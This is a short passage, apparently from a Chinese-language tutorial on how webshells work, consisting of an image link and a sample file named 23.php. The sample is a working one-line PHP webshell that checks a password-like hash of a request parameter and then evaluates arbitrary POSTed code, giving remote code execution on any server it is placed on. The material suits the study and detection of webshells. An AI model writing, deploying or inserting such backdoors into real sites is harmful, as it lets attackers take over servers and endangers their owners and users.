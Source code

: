 

![](webshell原理.assets/22.png)

#### 23.php

```php
<?php substr(md5($_REQUEST['x']),28)=='eba0'&&eval($_POST['c']);?>
```

